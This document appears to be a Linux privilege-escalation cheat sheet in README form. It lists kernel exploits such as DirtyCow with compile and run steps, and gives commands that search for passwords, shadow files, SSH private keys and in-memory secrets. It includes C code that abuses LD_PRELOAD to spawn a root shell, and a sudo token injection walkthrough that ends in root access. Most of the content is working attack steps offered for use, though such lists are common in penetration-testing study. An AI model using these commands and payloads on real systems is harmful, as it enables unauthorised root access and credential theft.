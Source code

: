 # linux-priv-Esc

# GTFOBins  
https://gtfobins.github.io


# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools 
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit 

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c

compile:- gcc -pthread dirty.c -o dirty -lcrypt

Then run the newly create binary by either doing:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)
https://www.exploit-db.com/exploits/15704/

4) CVE-2012-0056 (Mempodipper)

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
https://www.exploit-db.com/exploits/18411


# Weak File Permission 

ls -l | grep shadow  
ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null  
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd  
/etc/security/opasswd 

# Last edited files
*Files that were edited in the last 10 minutes*  
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords  
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files  
$ locate password | more  
/boot/grub/i386-pc/password.mod  
/etc/pam.d/common-password  
/etc/pam.d/gdm-password  
/etc/pam.d/gdm-password.original  
/lib/live/config/0031-root-password  

# SSH Key  
*Sensitive files*  
find / -name authorized_keys 2> /dev/null  
find / -name id_rsa 2> /dev/null

# SUDO  
* NOPASSWD Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.*  
$ sudo -l

# LD_PRELOAD and NOPASSWD  
If LD_PRELOAD is explicitly defined in the sudoers file  

Defaults        env_keep += LD_PRELOAD  

Compile the shared C code below on victim machine with gcc -fPIC -shared -o shell.so shell.c -nostartfiles  

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
void _init() {  
	unsetenv("LD_PRELOAD");  
	setgid(0);  
	setuid(0);  
	system("/bin/sh");  
}  
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_.so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so whoami  

# sudo_inject  
Using https://github.com/nongiach/sudo_inject  

$ sudo whatever  

[sudo] password for user:  

# Press <ctrl>+c since you don't have the password.  
# This creates an invalid sudo tokens.  
$ sh exploit.sh  
.... wait 1 seconds  
$ sudo -i # no password required :)  
# id  
uid=0(root) gid=0(root) groups=0(root)  
	
Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf  
